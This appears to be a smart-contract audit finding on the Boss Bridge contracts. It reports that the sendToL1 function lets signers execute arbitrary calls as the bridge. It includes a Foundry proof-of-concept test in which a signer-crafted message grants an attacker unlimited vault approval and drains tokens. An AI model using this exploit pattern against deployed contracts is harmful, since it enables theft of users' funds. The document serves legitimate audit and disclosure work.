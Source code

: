 ## <a id='H-03'></a>H-03. Signers can craft message steal funds and bypass Ownable security

### Relevant GitHub Links

https://github.com/Cyfrin/2023-11-Boss-Bridge/blob/main/src/L1BossBridge.sol#L119C1-L121C61

## Summary

The `sendToL1` function in the smart contract allows any signer to execute arbitrary functions in the vault contract by passing a message. This poses a security risk as signers can bypass the necessary checks and perform unauthorized actions.

## Vulnerability Details

The vulnerability lies in the `sendToL1` function where it allows signers to execute arbitrary function. The message passed to the function contains the target contract address, the value to send, and the data to execute. This allows signers to call any function in any contract with `msg.sender == address(instanceOfL1BossBridge`, and so bypass functions that should only be accessible to this contract. But also craft a withdraw message the money of the vault.

Foundry (put in test file) PoC :

```
function testSignerCanBypassVaultApprovalPoC() public {
        // setup attacker account
        vm.prank(deployer);
        token.transfer(address(attacker), 1000e18);

        // user send money to the bridge
        testUserCanDepositTokens();

        // Exemple of using the vault approveTo function bypassing of the owner check
        // to steal all the vault
        bytes memory message_sent_by_signer = abi.encode(
            address(vault),
            0,
            abi.encodeCall(L1Vault.approveTo, (attacker, UINT256_MAX))
        );

        (uint8 v, bytes32 r, bytes32 s) = _signMessage(
            message_sent_by_signer,
            operator.key
        );
        // withdraw to the operator address (steal user's money)
        vm.prank(operator.addr);
        tokenBridge.sendToL1(v, r, s, message_sent_by_signer);

        vm.startPrank(attacker);
        token.transferFrom(address(vault), attacker, 10e18);

        // Check the success of the steal
        assertEq(token.balanceOf(attacker), 1010e18);

        // Give back money because we are white hats, not sneaky thief.

        token.transfer(address(vault), 10e18);
        assertEq(token.balanceOf(attacker), 1000e18);
        vm.stopPrank();
    }
```
